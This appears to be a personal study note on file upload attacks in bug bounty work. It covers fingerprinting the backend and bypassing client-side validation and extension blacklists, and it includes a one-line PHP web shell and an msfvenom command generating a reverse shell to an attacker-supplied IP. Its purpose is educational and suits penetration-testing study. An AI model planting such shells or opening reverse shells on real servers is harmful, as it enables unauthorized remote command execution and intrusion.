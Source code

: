 ```yaml
---
{"dg-publish":true,"permalink":"/cybersecurity/bug-bounties/file-upload-attacks/"}
---
```


# Intro to File Upload Attacks

File uploads allow social media users (etc.) to store their images and files corporate websites but also present a serious potential atack vector.

## Types of File upload Attacks

The most basic vulnerability is when the server allows file upload without any kind of validation filters.

If there is no validation and no protection it's easy toupload a Web Shell Script or a Reverse Shell script.

## Identifying the Web Framework

To upload a malicious script, we must first identify the backend technology running the server.

Often this can be done by looking at the extension on the /index.ext page.

We may need to fuzz it if the index is hidden.  We can use **Burp Intruder** for fuzzing or **Wappalyzer** browser extension.

## Upload Exploitation

### Web Shells

There are multiple webshells provided by [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) and there is also [phpbash](https://github.com/Arrexel/phpbash)

Custom web shell:
```php
<?php system($_REQUEST['cmd']); ?>
```

Web shells can exist for any web framework, the difference is the command.

### Reverse Shell

[Pentestmonkey Reverse PHP Shell](https://github.com/pentestmonkey/php-reverse-shell)

### Generating Custom Reverse Shell Scripts

msfvenom can generate many reverse shell scripts in many languages.

```shell-session
User@Comp $ msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
...SNIP...
Payload size: 3033 bytes
```

### Client Side Validation

You can tell the difference between front and back end validation by determining whether the browser refreshes.

If the system just uses client-side validation, the protection can be circumvented using Burpsuite to modify the request.

Also, you can look to remove the validation function from the current copy of the website in your client.  Ctl+Shift+K opens up the inspector.  Then find the function that is doing the validation and try and remove it.

## Blacklist Filters

Commone exploitation extensions may be blacklisted on the back end.

### Blacklisting Extensions

There are to common forms of validating.  Testing against a **blacklist** or testing against a **whitelist.**

When we run up against an extension blacklist (or whitelist) the first step is to fuzz the upload function with a list of potential extensions to see which return errors and which return a different message.

Seclist of common **Web Extesions** is good for this.

Use the Burp Intruder for fuzzing the upload request file extension.

